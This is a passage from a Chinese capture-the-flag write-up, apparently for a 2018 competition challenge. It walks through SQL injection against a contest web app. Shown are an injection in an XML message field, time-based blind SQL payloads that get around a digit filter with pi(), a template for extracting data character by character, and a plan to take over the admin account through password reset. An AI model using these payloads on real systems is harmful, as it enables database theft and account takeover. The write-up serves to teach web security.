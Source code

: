 ```
</xml>
''' % content

print requests.post(url,data=data).content
```
通过提示存在注入，可以得到以下信息
```
<xml>
<ToUserName><![CDATA[1',(select content from note limit 3,1))--]]></ToUserName>
<FromUserName><![CDATA[a]]></FromUserName>
<CreateTime>1521882365</CreateTime>
<MsgType><![CDATA[text]]></MsgType>
<Content><![CDATA[Success!
Start Time:You can leave me message here: http://wc.qwb.com:8088/leave_message.php 
Over Time:Sat Mar 24 09:06:05 2018]]></Content>
<MsgId>1234567890123456</MsgId>
</xml>
```
绑定host: `wc.qwb.com` 的ip为`39.107.33.77`

![](https://p2.ssl.qhimg.com/t01829699aaeba7d22b.jpg)

其中message存在注入，限制的比较严格

```
POST /leave_message.php HTTP/1.1
Host: wc.qwb.com:8088

user=aaaaaaaaaaaaaaa&email=aaaa@qq.com&team=icq3be93d38562e68bc0a86368c2d6b2&message=1'-(sleep(ceil(pi())))-'1&submit=submit
```

![](https://p3.ssl.qhimg.com/t01f606eef4a3121817.jpg)

比如sleep函数参数里面不能用数字，可以使用`pi()`来绕过，另外就是`select from`部分。
```
message=12333'-(if(ascii(substring((select@b:=group_concat(username)from{cl0und.adminuser}),%s,1))like'%s',sleep(pi()),0))-'1
```
这里字段都需要猜解，猜不到password字段

`http://wc.qwb.com:8088/forgetpassword.php`

利用密码找回功能，注入出code，找回管理员密码

进入后台后，发现有一段上传处，主要用于用户的头像上传。

文件上传后便会将图片的内容显示出来。

![](https://p0.ssl.qhimg.com/t0190dec4b486262a3d.jpg)

再往后面看htm中有一段注释。

![](https://p1.ssl.qhimg.com/t01055a23cacad864af.jpg)
